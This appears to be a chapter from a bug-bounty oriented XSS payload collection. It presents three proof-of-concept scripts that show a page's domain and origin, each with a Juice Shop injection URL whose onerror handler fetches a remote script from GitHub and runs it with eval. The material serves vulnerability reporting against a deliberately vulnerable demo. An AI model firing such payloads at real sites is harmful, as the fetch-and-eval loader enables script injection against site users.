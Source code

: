# Simple Proof of Concept (PoC)

<p align="justify">This chapter covers an important topic, related to confirming the existence and exploitability of an XSS vulnerability - providing a simple technical Proof of Concept (PoC).</p>

<p align="justify">For this purpose, for a long time across the technical IT security industry, <b><code>alert(1)</code></b> has been used, almost exclusively. As already <b>explained by LiveOverflow [1]</b> in detail, this is a <b>bad practice</b> and <b>should be avoided</b>.</p>

<p align="justify">The payloads documented here provide ready-to-use alternatives, all of which address the mentioned issue.</p>

* **NOTE**: this is not an exhaustive list - further options of modifying the payload exist
    * the payloads listed here serve the purpose of providing a proven fast and simple PoC for reporting XSS vulnerabilities (e.g. via Bug Bounty platforms)
        * any additional impact is to be demonstrated via additional PoC(s) (i.e. these one serve only as a quick check that the vulnerability exists on the affected web application - to pass initial triage)
    * depending on the scenario, one may work over another
        * overall, in most scenarios, at least one of them works
            * if not, explore available options for "saying the same in a different way" (i.e. adapt to target environment)
            * if required, deal with Content Security Policy (CSP; not covered here)
    * list may be updated with additional different variants

## `simpleStd.js` - round brackets; quote; space; backslash

```
alert('DOMAIN: '.concat(document.domain).concat('\nORIGIN: ').concat(window.origin));
```

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## `simpleDec.js` - round brackets
```
alert(String.fromCharCode(68,79,77,65,73,78,58,32).concat(document.domain).concat(String.fromCharCode(10,79,82,73,71,73,78,58,32)).concat(window.origin));
```

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleDec.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## `simpleB64.js` - round brackets, quote, `eval()`
```
eval(atob('YWxlcnQoJ0RPTUFJTjogJy5jb25jYXQoZG9jdW1lbnQuZG9tYWluKS5jb25jYXQoJ1xuT1JJR0lOOiAnKS5jb25jYXQod2luZG93Lm9yaWdpbikpOwo='));
```

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleB64.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## References

* [https://liveoverflow.com/do-not-use-alert-1-in-xss/](https://liveoverflow.com/do-not-use-alert-1-in-xss/)
